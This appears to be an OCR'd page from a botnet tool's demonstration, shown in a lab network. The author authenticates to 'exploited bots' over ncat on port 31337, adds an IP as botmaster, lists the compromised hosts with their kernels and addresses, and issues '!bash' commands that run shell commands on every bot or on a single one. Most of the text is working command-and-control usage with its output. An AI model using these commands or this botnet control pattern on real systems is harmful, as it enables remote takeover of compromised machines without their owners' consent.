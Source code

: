 


now letme logme in to the exploitet bots and add me as botmaster

root@lamer:~# echo '!glob !logmein hur3hur3' | ncat 10.0.0.103 31337
Password correct
.........
root@lamer:~# echo '!glob !addadm 10.0.0.254' | ncat 10.0.0.103 31337
My Master > 10.0.0.254 
My Master > 10.0.0.254 
My Master > 10.0.0.254 
My Master > 10.0.0.254 
My Master > 10.0.0.254 
My Master > 10.0.0.254 
..........

root@lamer:~# echo '!glob !list' | ncat 10.0.0.103 31337
[0][Devel1x64][x86_64][4.19.0-6-amd64][10.0.0.101]
[0][Debian31337][x86_64][2.6.26-2-amd64][10.0.0.102]
[0][Devel5x64][x86_64][4.19.0-6-amd64][10.0.0.105]
[0][Devel-HTTP-1][x86_64][4.19.0-6-amd64][10.0.0.106]
[0][Devel-WINE-1][x86_64][4.19.0-6-amd64][10.0.0.107]
[3][wheezy-dev][x86_64][3.2.0-4-amd64][10.0.0.115]
[0][Devel4x64][x86_64][4.19.0-6-amd64][10.0.0.104]
..................
-1-------2-------3---------4-----------------5

1 is the system uptime.
2 is the hostname of the maschine .
3 is the architecture of the os.
4 is the kernel version
5 is the ip of the slave

we can see we got no duplicates of the bot in the list the bot checks everything if exist


root@lamer:~# echo '!glob !bash uptime' | ncat 10.0.0.103 31337
 00:00:01 up 37 min,  0 users,  load average: 0.00, 0.00, 0.00

 00:00:02 up 37 min,  0 users,  load average: 0.00, 0.00, 0.00

 00:00:03 up 37 min,  0 users,  load average: 0.00, 0.00, 0.00

 00:00:04 up 37 min,  0 users,  load average: 0.00, 0.00, 0.00

 00:00:05 up 16:06,  3 users,  load average: 0.00, 0.00, 0.00

 00:00:06 up 37 min,  0 users,  load average: 0.00, 0.00, 0.00

 00:00:03 up 3 days,  4:20,  1 user,  load average: 0.00, 0.01, 0.05
.....................

this is the bash command if it need it !glob 


you can control the bot in single mode with the !dc command

root@lamer:~# echo '!dc 10.0.0.107 !bash df -h' | ncat 10.0.0.103 31337
Filesystem      Size  Used Avail Use% Mounted on
